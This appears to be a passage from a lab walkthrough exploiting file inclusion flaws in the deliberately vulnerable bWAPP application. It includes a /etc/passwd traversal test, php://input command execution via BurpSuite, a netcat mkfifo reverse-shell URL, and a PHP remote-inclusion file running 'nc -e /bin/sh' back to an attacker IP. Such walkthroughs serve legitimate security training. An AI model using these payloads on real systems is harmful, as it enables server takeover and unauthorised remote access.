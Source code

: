 We are presented with a dropdown menu to select a language...

#### Low

If we select one of them and hit `Go`, we can see that the URL changes to execute a file: `lang_en.php`. With this in mind we can start playing around. First we can test to see if it is vulnerable: `/rlfi.php?language=../../../../etc/passwd`. As you can see for the output, it is. But this is just a test like in `Directory Traversal`. Let's try to do something using **PHP Wrappers**...

If we fire up **BurpSuite** we can modify the request to do some bad stuff. First let's see what files we can execute. Here is the basic methodology to do so:

1. Intercept the request with **BurpSuite**.
2. At the top, modify the `GET` request from: `/bWAPP/rlfi.php?language=lang_en.php&action=go` to `/bWAPP/rlfi.php?language=php://input&cmd=ls&action=go`. Here we are adding the **Input PHP Wrapper:** `php://input` to execute a command: `ls`. 
3. At the bottom, add the **PHP** code to execute that command: `<?php echo shell_exec($_GET['cmd']);?>`.
4. Forward the modify request and there you go, now you can see all the files.

![LFI BurpSuite](lfi-burp.png)

Going further, we can get a reverse shell. To do so, start a listener in you **Kali VM** with: `nc -nlvp [YOUR IP] 1234`. Once you are listening, change the previous request to: `/bWAPP/rlfi.php?language=php://input&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+[YOUR IP]+1234+>/tmp/f&action=go`. This is basically a **Netcat** command that throws a Reverse Shell to our IP.

![LFI Shell](lfi-shell.png)

This way we can exploit **LFI Vulnerabilities**. 

### Remote File Inclusion

#### Low

What if instead of executing the code through **BurpSuite** like this we just make the server execute a remote file with malitious code? Sounds good? Let's get to it!

1. Disable **PHP** execution in your apache server running `sudo /usr/sbin/a2dismod php8.2` -- I'll explain this later.
2. Start apache with `sudo service apache2 start`.
3. Create the file that would be executed. I will go for a reverse shell:

```php
<?php
echo shell_exec("nc -e /bin/sh 192.168.1.23 1234");
?>
```

4. Put this file into `/var/www/html`.
5. Start your **Netcat** listener with `nc -nlvp [YOUR IP] 1234`
5. Now, make the server execute this file changing the URL: `/bWAPP/rlfi.php?language=http://[YOUR KALI IP]/shell.php&action=go`. As you can see we have replaced the local file `lang_en.php` for our remote file `shell.php` preceded by our server address.

![RFI URL](rfi-url.png)

